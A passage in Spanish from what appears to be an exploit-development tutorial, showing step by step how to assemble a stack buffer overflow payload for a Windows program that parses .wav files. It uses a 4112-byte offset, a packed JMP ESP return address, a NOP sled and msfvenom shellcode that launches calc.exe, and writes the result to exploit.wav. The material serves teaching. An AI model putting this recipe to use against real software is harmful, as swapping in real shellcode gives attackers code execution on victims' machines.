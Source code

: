 Para convertirlo `hex`en una dirección en Little Endian, utilizaremos una función de Python llamada que `pack`se encuentra en la `struct`biblioteca. Podemos importar esta función agregando la siguiente línea al comienzo de nuestro código:

```python
from struct import pack
```

Ahora podemos usar `pack` para convertir nuestra dirección a su formato adecuado y usar ' `<L`' para especificar que la queremos en formato Little Endian:

```python
    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
```

### Relleno de código Shell

Ahora que tenemos `buffer`y `eip`, podemos agregar nuestro shellcode `buf`después de ellos y generar nuestro `.wav` archivo. Sin embargo, dependiendo del marco de pila actual del programa y de la alineación de pila, para cuando `JMP ESP` se ejecute nuestra instrucción, la parte superior de la dirección de la pila `ESP` puede haberse movido ligeramente. Los primeros bytes de nuestro shellcode pueden omitirse, lo que hará que el shellcode falle.

```python
    nop = b"\x90"*32
```

### Escritura de la carga útil en un archivo

Con esto nuestra carga útil final debería verse así:

```python
    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf
```

Luego podemos escribir `payload` en un `exploit.wav` archivo, como lo hicimos en funciones anteriores:

```python
    with open('exploit.wav', 'wb') as f:
        f.write(payload)
```

Una vez que ensamblamos todas estas partes, nuestra `exploit()` función final debería verse así:

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf = b""
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```
